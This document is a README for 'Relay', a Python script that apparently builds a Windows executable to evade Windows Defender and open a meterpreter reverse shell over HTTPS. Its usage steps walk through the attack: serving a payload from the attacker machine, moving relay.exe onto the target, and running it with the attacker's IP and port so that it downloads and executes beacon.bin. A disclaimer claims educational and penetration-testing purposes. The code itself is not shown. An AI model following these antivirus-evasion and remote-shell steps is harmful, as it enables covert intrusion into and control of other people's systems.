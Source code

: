 # Speed Up Bypassing Antivirus and Reverse Shell

Script Name: **Relay**

## Description

The "Relay" script is a powerful tool designed to generate an executable file that bypasses Windows Defender and establishes a secure connection using meterpreter over HTTPS. This script automates the process of creating a payload that can be used for various purposes, such as penetration testing and security assessments.

## Features

- Bypasses Windows Defender: The generated executable is specifically crafted to evade detection by Windows Defender and other antivirus software.
- Meterpreter over HTTPS: The script establishes a connection using meterpreter, providing a versatile and robust framework for interacting with the target system.
- Encrypted Communication: All communication between the attacker and the target system is encrypted using HTTPS, ensuring confidentiality and integrity of the data exchanged.
- Simple Usage: The script prompts the user to enter their IP address, port, and certificate file, making it easy to customize and generate the payload.

## Usage

1. Run the Python script: `python3 relay.py` and follow the on-screen instructions.
2. Enter your IP address and port, when prompted.
3. The script will generate the `beacon.bin` and an executable file named `relay.exe`.
4. On the attacker machine, navigate to the directory containing `beacon.bin`.
5. Start a simple HTTP server using the command: `python3 -m http.server`.
6. Transfer the `relay.exe` file to the target system.
7. On the target system, open a command prompt and navigate to the directory containing `relay.exe`.
8. Run the following command: `relay.exe <attacker_ip> <attacker_port> beacon.bin`. Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port specified during script execution.
9. The target system will download `beacon.bin` from the HTTP server and execute it, establishing a meterpreter session over HTTPS.

**Note:** Ensure that you have the necessary permissions and legal authorization before using this script for any activities.

## Disclaimer

This script is intended for educational and ethical purposes only. The misuse of this script for any unauthorized activities is strictly prohibited. The author is not responsible for any damage or illegal actions caused by the use of this script.

## License

This project is licensed under the [MIT License](LICENSE).

